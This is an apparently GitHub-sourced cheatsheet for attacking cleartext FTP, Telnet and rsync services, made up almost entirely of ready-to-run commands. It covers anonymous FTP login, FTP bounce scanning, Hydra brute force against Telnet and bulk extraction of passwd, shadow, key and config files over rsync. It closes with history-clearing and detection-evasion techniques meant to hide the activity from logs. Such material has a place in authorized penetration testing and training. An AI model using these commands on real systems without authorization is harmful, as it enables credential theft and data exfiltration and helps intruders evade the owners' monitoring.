 # Cleartext Protocols Cheatsheet

## FTP

### Service Discovery & Banner Grabbing
* Basic FTP connection: `ftp <target_ip>`
* Netcat banner grab: `echo "QUIT" \| nc <target_ip> 21`
* Nmap service detection: `nmap -sV -p 21 <target_ip>`
* Nmap with FTP-specific scripts: `nmap --script ftp-anon,ftp-bounce,ftp-brute,ftp-proftpd-backdoor,ftp-vsftpd-backdoor -p 21 <target_ip>`

### Anonymous Access
* Username: `anonymous`
* Password (if needed): `anonymous@example.com` (or any other existing or non-existing email address)

### FTP Bounce Scanning
* Use FTP server as proxy for port scanning: `nmap -b anonymous:anonymous@<ftp_server> <internal_target>`

### Data Exfiltration
* Bulk recursive download: `wget -r ftp://anonymous:anonymous@<target_ip>`
* Advanced FTP client: `lftp ftp://anonymous:anonymous@<target_ip>` → `mirror <remote_path> <local_path>`

## Telnet

### Service Discovery
* Basic Telnet connection: `telnet <target_ip> 23`
* Nmap service detection: `nmap -sV -p 23 <target_ip>`
* Nmap with Telnet-specific scripts: `nmap --script telnet-brute,telnet-encryption,telnet-ntlm-info -p 23 <target_ip>`

### Port Scanning
* Scan common Telnet ports: `nmap -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`
* Service detection on multiple ports: `nmap -sV -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`

### Hydra
* Hydra brute force: `hydra -L usernames.txt -P passwords.txt telnet://<target_ip> -vV -t4 -I`

### Initial Reconnaissance Commands

### Session Enumeration

| Command | Description |
|---------|-------------|
| `who` | Currently logged-in users |
| `w` | System users and their processes |
| `last` | Recent login/logout history |
| `users` | List of current usernames |
| `tty` | Current terminal name |
| `ps -t $(tty)` | Processes running on current terminal |

### Session Cleanup

| Command | Description |
|---------|-------------|
| `history -c` | Clear command history |
| `unset HISTFILE` | Disable history logging |
| `rm ~/.bash_history 2>/dev/null` | Remove history file |
| `unalias ls 2>/dev/null` | Remove command aliases |

## rsync

### Service Discovery
* Basic rsync service test and module listing: `rsync <target_ip>::`
* Explicit module listing: `rsync --list-only <target_ip>`
* Scan common rsync ports: `nmap -p 873,8873,9873 <target_ip>`
* Service detection: `nmap -sV -p 873 <target_ip>`

### Module Enumeration
* Detailed module information: `rsync -av --list-only <target_ip>::<module_name>`
* Test common modules
  ```bash
  for module in backup home www data etc opt var; do
    echo "Testing module: $module"
    rsync --list-only <target_ip>::$module 2>/dev/null
  done
  ```

### File Type Hunting
* Search for specific valuable file types: `rsync -avz --list-only <target_ip>::<module>/ \| grep -E '\.(conf\|cfg\|ini\|bak\|sql\|log)$'`

### Data Extraction
* Complete module mirror: `rsync -avz <target_ip>::<module>/ ./rsync_dump/`
* Selective file extraction: `rsync -avz --include="*.conf" --include="*.cfg" --exclude="*" <target_ip>::<module>/ ./configs/`
* Bandwidth-limited extraction: `rsync -avz --bwlimit=100 <target_ip>::<module>/ ./slow_dump/`

### High-Value File Extraction
```bash
rsync -avz --include="*passwd*" --include="*shadow*" --include="*config*" \
--include="*.conf" --include="*.cfg" --include="*.ini" \
--include="*.bak" --include="*.sql" --include="*.key" \
--include="*.pem" --exclude="*" <target_ip>::<module>/ ./intel/
```

### Write Access Testing
1. Create test file: `echo "rsync_test_$(date)" > test_file.txt`
2. Attempt upload: `rsync -avz test_file.txt <target_ip>::<module>`
3. Verify upload: `rsync --list-only <target_ip>::<module>/ \| grep test_file.txt`

## Detection Evasion & Operational Security

### Traffic Obfuscation
* Bandwidth limiting: `rsync -avz --bwlimit=50 --delay-updates <target>::<module>/ ./stealth_dump`
* Randomized connection intervals
  ```bash
  for i in {1..10}; do
    sleep $((RANDOM % 300 + 60))  # Random delay 1-6 minutes
    ftp -n <target> <<EOF
  user anonymous anonymous@$(date +%s)@fake.com
  ls
  quit
  EOF
  done
  ```

### Log Evasion

| Protocol | Evasion Technique |
|----------|-------------------|
| FTP | Use realistic email addresses for anonymous login |
| Telnet | Clear command history before disconnect |
| rsync | Use bandwidth limiting to appear as legitimate sync |

Reach out: https://linktr.ee/january1073

